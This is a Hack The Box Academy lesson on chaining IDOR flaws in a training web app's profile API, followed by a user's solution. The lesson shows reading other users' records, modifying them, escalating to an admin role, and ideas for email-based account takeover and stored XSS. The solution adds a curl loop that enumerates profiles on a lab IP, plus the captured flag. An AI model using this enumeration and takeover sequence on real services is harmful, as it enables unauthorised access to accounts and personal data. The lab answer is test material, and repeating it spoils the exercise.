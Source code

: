# Chaining IDOR Vulnerabilities

Usually, a `GET` request to the API endpoint should return the details of the requested user, so we may try calling it to see if we can retrieve our user's details. We also notice that after the page loads, it fetches the user details with a `GET` request to the same API endpoint: ![get\_api](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_idor\_get\_api.jpg)

As mentioned in the previous section, the only form of authorization in our HTTP requests is the `role=employee` cookie, as the HTTP request does not contain any other form of user-specific authorization, like a JWT token, for example. Even if a token did exist, unless it was being actively compared to the requested object details by a back-end access control system, we may still be able to retrieve other users' details.

***

### Information Disclosure

Let's send a `GET` request with another `uid`:

![get\_another\_user](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_idor\_get\_another\_user.jpg)

As we can see, this returned the details of another user, with their own `uuid` and `role`, confirming an `IDOR Information Disclosure vulnerability`:

Code: json

```json
{
    "uid": "2",
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Iona Franklyn",
    "email": "i_franklyn@employees.htb",
    "about": "It takes 20 years to build a reputation and few minutes of cyber-incident to ruin it."
}
```

This provides us with new details, most notably the `uuid`, which we could not calculate before, and thus could not change other users' details.

***

### Modifying Other Users' Details

Now, with the user's `uuid` at hand, we can change this user's details by sending a `PUT` request to `/profile/api.php/profile/2` with the above details along with any modifications we made, as follows:

![modify\_another\_user](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_idor\_modify\_another\_user.jpg)

We don't get any access control error messages this time, and when we try to `GET` the user details again, we see that we did indeed update their details:

![new\_another\_user\_details](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_idor\_new\_another\_user\_details.jpg)

In addition to allowing us to view potentially sensitive details, the ability to modify another user's details also enables us to perform several other attacks. One type of attack is `modifying a user's email address` and then requesting a password reset link, which will be sent to the email address we specified, thus allowing us to take control over their account. Another potential attack is `placing an XSS payload in the 'about' field`, which would get executed once the user visits their `Edit profile` page, enabling us to attack the user in different ways.

***

### Chaining Two IDOR Vulnerabilities

Since we have identified an IDOR Information Disclosure vulnerability, we may also enumerate all users and look for other `roles`, ideally an admin role. `Try to write a script to enumerate all users, similarly to what we did previously`.

Once we enumerate all users, we will find an admin user with the following details:

Code: json

```json
{
    "uid": "X",
    "uuid": "a36fa9e66e85f2dd6f5e13cad45248ae",
    "role": "web_admin",
    "full_name": "administrator",
    "email": "webadmin@employees.htb",
    "about": "HTB{FLAG}"
}
```

We may modify the admin's details and then perform one of the above attacks to take over their account. However, as we now know the admin role name (`web_admin`), we can set it to our user so we can create new users or delete current users. To do so, we will intercept the request when we click on the `Update profile` button and change our role to `web_admin`:

![modify\_our\_role](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_idor\_modify\_our\_role.jpg)

This time, we do not get the `Invalid role` error message, nor do we get any access control error messages, meaning that there are no back-end access control measures to what roles we can set for our user. If we `GET` our user details, we see that our `role` has indeed been set to `web_admin`:

Code: json

```json
{
    "uid": "1",
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "web_admin",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb",
    "about": "A Release is like a boat. 80% of the holes plugged is not good enough."
}
```

Now, we can refresh the page to update our cookie, or manually set it as `Cookie: role=web_admin`, and then intercept the `Update` request to create a new user and see if we'd be allowed to do so:

![create\_new\_user\_2](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_idor\_create\_new\_user\_2.jpg)

We did not get an error message this time. If we send a `GET` request for the new user, we see that it has been successfully created:

![create\_new\_user\_2](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_idor\_get\_new\_user.jpg)

By combining the information we gained from the `IDOR Information Disclosure vulnerability` with an `IDOR Insecure Function Calls` attack on an API endpoint, we could modify other users' details and create/delete users while bypassing various access control checks in place. On many occasions, the information we leak through IDOR vulnerabilities can be utilized in other attacks, like IDOR or XSS, leading to more sophisticated attacks or bypassing existing security mechanisms.

With our new `role`, we may also perform mass assignments to change specific fields for all users, like placing XSS payloads in their profiles or changing their email to an email we specify. `Try to write a script that changes all users' email to an email you choose.`. You may do so by retrieving their `uuids` and then sending a `PUT` request for each with the new email.

**Questions**

Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.

```bash
#!/bin/bash
url="http://94.237.53.58:49444/profile/api.php/profile/"
output_file="output.txt"
separator="--------------------------------------------------"
# Clear the output file if it exists
> "$output_file"
for i in {1..10}; do
    echo "Fetching profile $i..."
    response=$(curl -s -o /dev/null -w "%{http_code}" "$url/$i")
    if [[ $response == 200 ]]; then
        curl -s "$url/$i" >> "$output_file"
        printf "\n%s\n" "$separator" >> "$output_file"
    fi
done
echo "Results saved in $output_file"
```

now run the code above to scan idor

```bash
#found admin
{"uid":"10","uuid":"bfd92386a1b48076792e68b596846499","role":"staff_admin","full_name":"admin","email":"admin@employees.htb","about":"Never gonna give you up, Never gonna let you down"}
#now go to burpsuite repeater and change HTTP put request and change admin email into
#flag@idor.htb
HTB{1_4m_4n_1d0r_m4573r}
```
